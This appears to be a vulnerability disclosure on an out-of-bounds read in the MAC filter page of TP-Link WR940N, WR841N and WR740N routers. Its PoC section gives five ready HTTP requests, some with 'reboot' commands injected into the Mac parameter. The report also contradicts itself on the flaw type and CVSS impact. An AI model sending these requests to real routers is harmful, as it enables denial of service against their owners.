







# TP-Link TL-WR940N/TL-WR841N/TL-WR740N wireless router /userRpm/WlanMacFilterRpm buffer read out-of-bounds vulnerability

## 1 Basic Information

- Vulnerability Type: Buffer read out-of-bounds
- Vulnerability Description: A buffer overflow vulnerability exists in TP-Link TL-WR940N V2/V4、TL-WR841N V8/V10 and TL-WR740N V1/V2 wireless router. Its /userRpm/WlanMacFilterRpm component has a security vulnerability in processing Mac GET key parameters, allowing remote attackers to submit special requests through the vulnerability, causing buffer out-of-bounds read errors, which may lead to memory-sensitive information leakage and denial of service.
- Device model:
  - TP-Link TL-WR940N V2/V4、TP-Link TL-WR841N V8/V10、TP-Link TL-WR740N V1/V2

## 2 Vulnerability Value

- Maturity of Public Information: None

- Order of Public Vulnerability Analysis Report: None

- Stable reproducibility: yes

- Vulnerability Score (refer to CVSS)

  - V2：[7.1 High AV:N/AC:H/Au:S/C:C/I:C/A:C](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:H/Au:S/C:C/I:C/A:C))
  - V3.1：[8.6 High AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H&version=3.1)

- Exploit Conditions

  - Attack Vector Type: Network
  - Attack Complexity: Low
  - Complexity of Exploit
    - Permission Constraints: authentication is required
    - User Interaction: No victim interaction required
  - Scope of Impact: Changed (may affect other components than vulnerable ones)
  - Impact Indicators:
    - Confidentiality: High
    - Integrity: High
    - Availability: High
  - Stability of vulnerability exploitation: Stable recurrence
  - Whether the product default configuration: There are vulnerabilities in functional components that are enabled out of the factory

- Exploit Effect
  - Denial of Service

## 3 PoC

The PoC of TP-Link WR940N V4 is as follows:

```http
GET /LVHFBYIBSYXBAXRA/userRpm/WlanMacFilterRpm.htm?Mac;CMD=$'reboot';$CMD=1C-BF-C0-7A-E0-03&Desc=&Type=1&entryEnabled=1&Changed=0&SelIndex=0&Page=1&vapIdx=1&Save=Save HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://127.0.0.1:8081/LVHFBYIBSYXBAXRA/userRpm/WlanMacFilterRpm.htm?Add=Add&Page=1&vapIdx=
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link WR940N V2 is as follows:

```http
GET /CAKDBATBHJTUFMRC/userRpm/WlanMacFilterRpm.htm?|=00-1D-0F-11-22-33&Desc=123&Type=1&entryEnabled=1&Changed=0&SelIndex=0&Page=1&vapIdx=1&Save=Save HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.0.1/KMODQNKANSQJBYFA/userRpm/WlanMacFilterRpm.htm?Add=Add&Page=1&vapIdx=
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link WR841N V8 is as follows:

```http
GET /userRpm/WlanMacFilterRpm.htm?Mac?=78-2B-46-90-5c-67&Desc=rwsef&Type=1&entryEnabled=1&Changed=0&SelIndex=0&Page=1&vapIdx=1&Save=Save HTTP/1.1
Host: 0.0.0.0:49168
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://0.0.0.0:49168/userRpm/WlanMacFilterRpm.htm?Add=Add&Page=1&vapIdx=
Cookie: Authorization=
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link WR841N V10 is as follows:

```http
GET /OTRRRRDAFITRVSAA/userRpm/WlanMacFilterRpm.htm?MacCMD=$"reboot";$CMD=1C-BF-C0-7A-E0-04&Desc=des&Type=1&entryEnabled=1&Changed=0&SelIndex=0&Page=1&vapIdx=1&Save=Save HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://127.0.0.1:8081/BMKHACLAYMEWMEQA/userRpm/WlanMacFilterRpm.htm?Add=Add&Page=1&vapIdx=
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link WR740N is as follows:

```http
GET /userRpm/WlanMacFilterRpm.htm?Mac;reboot|=00-16-EA-AE-3C-40&Desc=a&Type=1&entryEnabled=1&Changed=0&SelIndex=0&Page=1&Save=Save HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: keep-alive
Referer: http://192.168.1.1/userRpm/WlanMacFilterRpm.htm?Add=Add&Page=1
Upgrade-Insecure-Requests: 1

```

## 4 Vulnerability Principle

When the Web management component receives a GET request, its /userRpm/WlanMacFilterRpm component has a security vulnerability in processing the Mac address GET key parameter. The Mac parameter itself is put into the stack without being checked, resulting in a denial of service. Attackers exploit this vulnerability to construct Mac parameters, causing buffer out-of-bounds read errors, which may lead to memory-sensitive information disclosure and denial of service. Attackers can use this vulnerability to directly achieve the effect of denial of service attacks.

The firmware simulation process and interface are as follows:







After sending the constructed PoC, the cache area read out of bounds and a BadVA error occurred, resulting in denial of service.









## 5. The basis for judging as a 0-day vulnerability

Searching the WlanMacFilterRpm keyword in the NVD database did not find any vulnerabilities; searching the firmware model + parameter Mac keyword in the NVD database did not find any vulnerabilities, so it is considered a 0-day vulnerability.